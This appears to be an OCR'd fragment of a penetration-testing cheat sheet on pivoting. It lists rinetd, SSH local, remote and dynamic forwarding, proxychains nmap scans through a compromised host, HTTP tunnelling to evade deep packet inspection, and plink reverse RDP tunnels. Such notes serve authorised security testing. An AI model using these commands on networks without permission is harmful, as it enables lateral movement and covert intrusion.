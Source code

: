     -   cat /etc/rinetd.conf  
        \# bindadress bindport connectaddress connectport  
        w.x.y.z 53 a.b.c.d 80

-   SSH Local Port Forwarding: supports bi-directional communication
    channels

    -   ssh <gateway> -L <local port to listen>:<remote
        host>:<remote port>

-   SSH Remote Port Forwarding: Suitable for popping a remote shell on
    an internal non routable network

    -   ssh <gateway> -R <remote port to bind>:<local
        host>:<local port>  

-   SSH Dynamic Port Forwarding: create a SOCKS4 proxy on our local
    attacking box to tunnel ALL incoming traffic to ANY host in the DMZ
    network on ANY PORT

    -   ssh -D <local proxy port> -p <remote port>
        <target>

-   Proxychains - Perform nmap scan within a DMZ from an external
    computer

    -   Create reverse SSH tunnel from Popped machine on :2222  
        ssh -f -N -R 2222:$ip:22 root@$ip

    -   Create a Dynamic application-level port forward on 8080 thru
        2222  
        ssh -f -N -D $ip:8080 -p 2222 hax0r@$ip

    -   Leverage the SSH SOCKS server to perform Nmap scan on network
        using proxy chains  
        proxychains nmap --top-ports=20 -sT -Pn $ip/24

-   HTTP Tunneling  
    nc -vvn $ip 8888

-   Traffic Encapsulation - Bypassing deep packet inspection

    -   http\_tunnel  
        On server side:  
        sudo hts -F <server\_ip\_addr>:<port\_of\_your\_app>
        80  
        On client side:  
        sudo htc -P <my\_proxy.com:proxy\_port> -F
        <port\_of\_your\_app> <server\_ip\_addr>:80  
        stunnel

-   Tunnel Remote Desktop (RDP) from a Popped Windows machine to your
    network

    -   Tunnel on port 22  
        plink -l root -pw pass -R 3389:$ip:3389 $ip

    -   Port 22 blocked? Try port 80? or 443?  
        plink -l root -pw 23847sd98sdf987sf98732 -R 3389:$ip:3389 $ip -P
        80
